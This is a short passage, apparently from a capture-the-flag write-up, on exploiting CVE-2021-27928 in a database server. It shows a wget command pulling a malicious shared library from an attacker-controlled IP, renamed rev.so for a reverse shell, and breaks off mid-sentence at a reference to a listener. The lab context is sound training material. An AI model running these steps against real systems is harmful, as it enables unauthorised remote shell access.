 exit the DB to go back on the shell ->

```
wget http://10.10.14.166:8989/CVE-2021-27928.so
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>i changed the name of the exploit to rev.so</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and if you set up your listener earlier ->
